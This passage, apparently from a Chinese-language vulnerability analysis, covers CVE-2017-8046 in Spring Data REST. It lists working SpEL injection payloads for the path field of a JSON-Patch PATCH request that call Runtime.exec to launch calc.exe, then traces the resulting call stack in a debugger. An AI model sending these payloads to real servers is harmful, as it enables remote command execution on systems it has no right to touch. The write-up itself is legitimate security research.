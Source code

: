 ### 漏洞验证PoC



运行com.example.accessingdatarest.AccessingDataRestApplication。修改如上PATCH请求的path参数的值为如下值。然后通过burp发起请求，成功执行命令。

```
T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99, 97, 108, 99, 46, 101, 120, 101}))/lastName

//一些其他可用poc，值得注意的是("calc.exe")后面都有“尾巴”，如果没有这些尾巴，PoC将不能正确触发。
                   
T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/1

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/a

//在后续的处理过程中，斜杠会被替换成点号，点号表示访问属性

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[1]

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[a]

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").a
```

![image.png](img/CVE-2017-8046 Spring Data REST命令执行漏洞/1596174823977-a80d9230-29c9-4efa-a682-5ca25485cd4d.png)

## 漏洞分析

在java.lang.Runtime#exec(java.lang.String)处下断点，并以debug模式运行com.example.accessingdatarest.AccessingDataRestApplication。和上面一样修改PATCH请求的path参数的值为payload，然后发起请求。 通过断点获取到如下调用栈信息：

```
getRuntime():58, Runtime (java.lang)
invoke0(Method, Object, Object[]):-1, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):62, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):43, DelegatingMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):498, Method (java.lang.reflect)
execute(EvaluationContext, Object, Object[]):113, ReflectiveMethodExecutor (org.springframework.expression.spel.support)
getValueInternal(EvaluationContext, Object, TypeDescriptor, Object[]):129, MethodReference (org.springframework.expression.spel.ast)
getValueInternal(ExpressionState):85, MethodReference (org.springframework.expression.spel.ast)
getValueRef(ExpressionState):57, CompoundExpression (org.springframework.expression.spel.ast)
setValue(ExpressionState, Object):95, CompoundExpression (org.springframework.expression.spel.ast)
setValue(Object, Object):438, SpelExpression (org.springframework.expression.spel.standard)
setValueOnTarget(Object, Object):167, PatchOperation (org.springframework.data.rest.webmvc.json.patch)
perform(Object, Class):41, ReplaceOperation (org.springframework.data.rest.webmvc.json.patch)
//我们可以从这里自己实现一个例子来验证漏洞。
    
apply(Object, Class):64, Patch (org.springframework.data.rest.webmvc.json.patch)
applyPatch(InputStream, Object):91, JsonPatchHandler (org.springframework.data.rest.webmvc.config)
apply(IncomingRequest, Object):83, JsonPatchHandler (org.springframework.data.rest.webmvc.config)
//开始处理JSON-Patch
    
readPatch(IncomingRequest, ObjectMapper, Object):206, PersistentEntityResourceHandlerMethodArgumentResolver (org.springframework.data.rest.webmvc.config)
read(RootResourceInformation, IncomingRequest, HttpMessageConverter, Object):184, PersistentEntityResourceHandlerMethodArgumentResolver (org.springframework.data.rest.webmvc.config)
resolveArgument(MethodParameter, ModelAndViewContainer, NativeWebRequest, WebDataBinderFactory):141, PersistentEntityResourceHandlerMethodArgumentResolver (org.springframework.data.rest.webmvc.config)
```